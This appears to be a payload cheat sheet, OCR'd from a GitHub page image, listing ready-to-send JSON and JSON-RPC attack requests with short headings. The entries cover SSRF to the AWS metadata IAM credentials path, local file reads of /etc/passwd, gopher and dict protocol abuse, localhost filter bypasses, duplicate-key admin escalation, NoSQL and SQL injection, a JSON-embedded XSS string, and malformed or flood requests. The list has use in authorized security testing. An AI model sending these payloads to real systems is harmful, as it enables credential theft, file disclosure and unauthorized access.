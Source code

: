 **AWS Metadata Access**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"},"id":1}
```
**Local File Inclusion (LFI)**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"file:///etc/passwd"},"id":1}
```
**Gopher Protocol Exploitation**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"gopher://127.1:80/_<gopher-payload>"},"id":1}
```
**Dict Protocol Abuse**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"dict://example.com:11111/d:word:database:1"},"id":1}
```
**Hex-Encoded Localhost**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"http://0x7f000001"},"id":1}
```
**IPv6 Localhost Access**
```json
{"jsonrpc":"2.0","method":"fetchUrl","params":{"url":"http://[::1]"},"id":1}
```
**Duplicate Key Exploit**
```json
{"username":"admin","isAdmin":false,"isAdmin":true}
```
**NoSQL Injection**
```json
{"filter":{"age":{"$ne":null}}}
```
**JSON Injection/XSS**
```json
{"email":"test@example.com\",\"alert(1)//\":\""}
```
**JSON Parameter Pollution**
```json
POST /api?data={"foo":1}...
```
**SQL Injection Attempt**
```json
{"filters":["1=1 --"]}
```
**Ethereum Chain ID Probe**
```json
{"method":"eth_chainId","params":[],"id":1}
```
**JSON-RPC Version Downgrade**
```json
{"jsonrpc":"1.0","method":"foo","params":[],"id":1}
```
**Null Bomb**
```json
{"jsonrpc":null,"method":null,"params":null,"id":null}
```
**Batch Request Flood**
```json
[{"jsonrpc":"2.0","method":"foo","params":[],"id":1}]
```
**Unexpected Parameter Test**
```json
{"jsonrpc":"2.0","foo":"bar"}
```
**Deeply Nested Object**
```json
{"a":{"b":{"c":{...}}}
```
